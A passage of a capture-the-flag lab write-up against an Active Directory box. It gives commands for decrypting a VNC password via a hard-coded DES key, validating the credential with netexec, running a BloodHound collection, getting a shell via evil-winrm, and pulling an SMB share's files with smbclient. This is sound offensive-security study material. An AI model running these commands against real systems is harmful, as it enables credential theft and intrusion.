 -   **Some quick** `DuckDuckGoing` **(doesn't sound as cool as "Googling") &amp; I find a decryption method**:
    -   According to [this entry](https://github.com/frizb/PasswordDecrypts?tab=readme-ov-file) VNC uses a hard-coded DES key to store credentials. And the same key is used across multiple different products.

-   **I use the command at the bottom of the page &amp; get the clear-text password**:
    -   `echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv`
    -   {{< figure src="/ox-hugo/2024-10-15-111420_.png" >}}

-   **I test if it's** `s.smiths` **&amp; it is**:
    -   `netexec smb $box -u $user -p $pass`
    -   {{< figure src="/ox-hugo/2024-10-15-113715_.png" >}}


### Running a bloodhound collection: {#running-a-bloodhound-collection}

-   **It's about time we ran a bloodhound collection after grabbing all the low-hanging fruit**:
    -   `python3 bloodhound.py -dc casc-dc1.$domain -c All -u $user -p $pass -d $domain -ns $box`
    -   {{< figure src="/ox-hugo/2024-10-15-113948_.png" >}}


### Enumerating as `s.smith`: {#enumerating-as-s-dot-smith}

-   **Looking at the bloodhound data we can see that** `s.smith` **is part of numerous groups**:
    -   {{< figure src="/ox-hugo/2024-10-15-115709_.png" >}}
    -   We can see he is part of the "Remote Management Users" so we should be able to get access to the machine now.

-   **I access the host via** `evil-winrm`:
    -   `evil-winrm -i $box -u $user -p $pass`
    -   {{< figure src="/ox-hugo/2024-10-15-115931_.png" >}}

-   **Get our user flag**:
    -   {{< figure src="/ox-hugo/2024-10-15-120050_.png" >}}


### Enumerating &amp; pillaging the `audit$` share: {#enumerating-and-pillaging-the-audit-share}

-   **We can see that they also have access to the** `audit$` **share**:
    -   {{< figure src="/ox-hugo/2024-10-15-120246_.png" >}}

-   **I connect using** `smbclient`:
    -   `smbclient -U $domain\\$user \\\\$box\\Audit$`
    -   {{< figure src="/ox-hugo/2024-10-15-120555_.png" >}}
    -   There are alot of interesting things here.

-   **To make life easier I create a** `.tar` **file of all the files**:
    -   `tar c all.tar`
    -   {{< figure src="/ox-hugo/2024-10-15-120843_.png" >}}
    -   +Note+: This will make a `.tar` of all the files **excluding** directories and download it automatically.
